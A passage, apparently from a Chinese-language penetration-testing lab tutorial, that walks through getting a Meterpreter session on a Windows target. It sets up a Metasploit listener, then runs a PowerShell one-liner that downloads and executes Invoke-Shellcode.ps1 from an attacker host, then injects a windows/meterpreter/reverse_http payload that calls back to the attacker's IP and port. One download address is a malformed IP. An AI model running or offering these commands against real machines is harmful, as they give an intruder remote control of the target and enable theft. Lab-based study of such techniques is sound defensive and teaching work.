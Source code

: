 
接着再打开新的命令行终端，输入命令 `msfconsole` 打开 `Msfconsole`，设置 `PAYLOAD` 以及本地主机 IP 地址 `LHOST` 和本地主机端口号 `LPORT`。最后输入攻击命令 `exploit`，监听目标主机。箭头所指的地方需要替换成攻击者电脑的 IP 地址，由 `ifconfig` 命令可以查看本机 ip 地址。 

![图片描述](../imgs/1482393380008.png-wm.png)

```
# 下载脚本文件
ps > IEX (New-Object Net.WebClient).DownloadString ("http://192.168.192.122.101:8000/CodeExecution/Invoke-Shellcode.ps1 ")
```

![图片描述](../imgs/1482395671440.png-wm.png)

```
# 创建 session 会话通道
ps > Invoke-Shellcode -Payload windows/meterpreter/reverse_http -lhost 192.168.122.101 -lport 4444 -Force
```

![图片描述](../imgs/1482396010425.png-wm.png)
